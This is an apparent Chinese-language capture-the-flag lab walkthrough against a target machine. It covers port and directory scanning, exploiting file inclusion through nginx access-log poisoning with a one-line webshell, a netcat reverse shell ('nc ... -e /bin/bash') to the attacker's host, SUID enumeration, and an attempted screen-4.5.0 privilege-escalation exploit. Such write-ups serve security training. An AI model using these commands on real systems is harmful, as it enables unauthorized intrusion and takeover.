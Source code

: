 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668304994439-0dc8624c-4b12-4c5d-b211-1e866bd0a8e6.png#averageHue=%23262c38&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=332&id=u60f67070&margin=%5Bobject%20Object%5D&name=image.png&originHeight=332&originWidth=1271&originalType=binary&ratio=1&rotation=0&showTitle=false&size=107775&status=done&style=none&taskId=ub7be88dc-2cd4-450c-bdde-6449ffab889&title=&width=1271)
nmap -p- -A 192.168.31.146
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668305045814-d2cfac2a-80a6-41b8-a483-e3ba150b8e6a.png#averageHue=%23262c38&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=451&id=ue797f7fe&margin=%5Bobject%20Object%5D&name=image.png&originHeight=451&originWidth=1235&originalType=binary&ratio=1&rotation=0&showTitle=false&size=128026&status=done&style=none&taskId=ud8aa61f9-7073-4bec-947f-40f39957b5a&title=&width=1235)
# web 突破
访问 80 端口
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668305111981-33896b12-9c00-4e00-9de6-8c1b811b2e47.png#averageHue=%23cac8c5&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=983&id=u2c3e78b8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=983&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=202151&status=done&style=none&taskId=uecdd2029-75fc-4a8b-8044-129f391d61b&title=&width=1920)
dirb 扫目录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668305172201-e0da86c5-fe16-41c2-aecb-2270679ada87.png#averageHue=%23262b37&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=381&id=ue32e88bc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=381&originWidth=1274&originalType=binary&ratio=1&rotation=0&showTitle=false&size=95304&status=done&style=none&taskId=u7be68a65-9609-4d5a-9be1-b4d1cde6b75&title=&width=1274)
dirb 扫 .html .txt .php
dirb http://192.168.31.146 -X .html .php .txt
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668305496110-1322596e-ced0-491f-9d9c-64ce1ed4a672.png#averageHue=%23282d3a&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=215&id=u2cbee6d3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=215&originWidth=978&originalType=binary&ratio=1&rotation=0&showTitle=false&size=73275&status=done&style=none&taskId=u6ef6a474-0131-4f3c-86dc-b03d36782e2&title=&width=978)
访问主页的时候，发现 contact 页面提交后的 thankyou.php 页面会根据 contact 页面提交内容不同页脚年份会发生变化，但是 footer.php 是 2017 年，所以可能有文件包含
尝试发现确实有文件包含
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668306174896-596bca91-183b-45af-bb15-1547ea7a8414.png#averageHue=%2381807d&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=539&id=uedf54ca1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=539&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=105755&status=done&style=none&taskId=u268a786a-1109-48b0-9067-3a31552edae&title=&width=1920)
访问 nginx 的配置文件  /etc/nginx/nginx.conf
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668306293142-cd22df9b-8d81-44a5-88b9-e920e7b5af41.png#averageHue=%23807e7b&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=509&id=u2a7dda4b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=509&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=107152&status=done&style=none&taskId=u458fb5e3-9fb1-4b18-8b47-e99547ee1dd&title=&width=1919)
发现 nginx 的日志文件  /var/log/nginx/access.log  
访问一句话木马，使之写入 nginx 的日志文件里
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668307854434-c9d474b0-bdfa-4a26-b203-ef542fb85cee.png#averageHue=%23f2f2f1&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=106&id=ue76bb29a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=106&originWidth=488&originalType=binary&ratio=1&rotation=0&showTitle=false&size=11524&status=done&style=none&taskId=ufc9797a4-6b53-40ca-ad75-f7c00657557&title=&width=488)
访问日志文件
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668307871377-f7685fa9-d9e2-4583-93d7-f15a8f650484.png#averageHue=%23f5f4f4&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=621&id=uf7bfe4f0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=621&originWidth=1169&originalType=binary&ratio=1&rotation=0&showTitle=false&size=104940&status=done&style=none&taskId=u6f42096b-1d1d-4413-bb5a-9a8da2f479b&title=&width=1169)
蚁剑连接
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668307800805-0446850e-2ea5-4ad8-b753-8f2e29de0402.png#averageHue=%23ececec&clientId=ube987d4c-00cb-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=349&id=u92509e8b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=349&originWidth=1020&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43672&status=done&style=none&taskId=u5062c510-bae8-4a4e-9a69-ffe5bc4e941&title=&width=1020)
成功，在蚁剑打开终端，将 shell 反弹到 kali 上，kali 监听 端口
kali：nc -lvvp 4444
蚁剑（靶机）：nc 192.168.31.128 4444 -e /bin/bash
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668308000919-603c5b6a-87d4-41af-a96f-58c19510d3b9.png#averageHue=%23535352&clientId=ueb18e7a3-7355-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=221&id=u17160b19&margin=%5Bobject%20Object%5D&name=image.png&originHeight=221&originWidth=1013&originalType=binary&ratio=1&rotation=0&showTitle=false&size=25567&status=done&style=none&taskId=u05b5a1db-2ccf-4383-a720-cdefa36194f&title=&width=1013)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668308043458-c70ec31d-9880-4dc2-9e91-63e07dd193ca.png#averageHue=%23262d38&clientId=ueb18e7a3-7355-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=162&id=u9152db1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=162&originWidth=879&originalType=binary&ratio=1&rotation=0&showTitle=false&size=33765&status=done&style=none&taskId=u63130dbe-1a79-41b5-88b3-b3e2082ad11&title=&width=879)
kali 拿到 shell
python 优化 shell
python -c 'import pty;pty.spawn("/bin/bash")'
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668308119221-8896d4c4-8ff4-435d-bdee-bf1c5260d10b.png#averageHue=%232a3948&clientId=ueb18e7a3-7355-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=72&id=uac653b44&margin=%5Bobject%20Object%5D&name=image.png&originHeight=72&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8698&status=done&style=none&taskId=udfc74166-5dbb-4982-ad8e-7637e5c2c34&title=&width=428)
查看哪些命令有 suid 权限
find / -perm -u=s -type f 2>/dev/null  或  find / -user root -perm -4000 -print 2>/dev/null 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668308195910-7fb65817-882f-4e53-8cf6-4791a48ae9ac.png#averageHue=%23252a36&clientId=ueb18e7a3-7355-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=357&id=u8921d1ee&margin=%5Bobject%20Object%5D&name=image.png&originHeight=357&originWidth=1164&originalType=binary&ratio=1&rotation=0&showTitle=false&size=74716&status=done&style=none&taskId=ub7a640f2-43af-4cf0-8603-d8ce272d6df&title=&width=1164)
有 screen-4.5.0 
_GNU Screen是一款由GNU计划开发的用于命令行终端切换的自由软件。用户可以通过该软件同时连接多个本地或远程的命令行会话，并在其间自由切换。_
_GNU Screen可以看作是窗口管理器的命令行界面版本。它提供了统一的管理多个会话的界面和相应的功能。_
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668308401584-13bcc7de-3422-4b45-a52d-03360179f3c6.png#averageHue=%23272c37&clientId=u2af935fa-e323-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=243&id=u6baef5f2&margin=%5Bobject%20Object%5D&name=image.png&originHeight=243&originWidth=1249&originalType=binary&ratio=1&rotation=0&showTitle=false&size=65682&status=done&style=none&taskId=uf0292534-0c9d-4618-88b0-84274a65b04&title=&width=1249)


# 提权
将 41154.sh 通过 nc 传到靶机中，赋予权限后运行
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668310163185-875f8cb8-004c-476b-a41e-2e375567674e.png#averageHue=%232b323e&clientId=uc05aa535-184d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=60&id=u0f75bc54&margin=%5Bobject%20Object%5D&name=image.png&originHeight=60&originWidth=465&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10543&status=done&style=none&taskId=ubc929558-8c52-4154-b422-a9d7a3043dc&title=&width=465)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668310153581-3d876f9e-f5cf-4cb0-9187-8f647c1bf532.png#averageHue=%232a323e&clientId=uc05aa535-184d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=169&id=ud4a6d8e1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=169&originWidth=741&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39871&status=done&style=none&taskId=u2de8b134-c4fe-4068-8287-45368ea9c2a&title=&width=741)
提示说版本不对，找不到 GLIBC_2.34
正常的话，运行了 41154.sh 就提权成功，靶机版本不对没有 root 也不能安装所需版本
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668310193264-65c6b0a9-2922-4648-bc58-bfc49f1fd760.png#averageHue=%23272f3b&clientId=uc05aa535-184d-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=292&id=ud47b5f9a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=292&originWidth=1008&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68096&status=done&style=none&taskId=u003d0669-bc18-4d06-a24f-83965c4bae0&title=&width=1008)



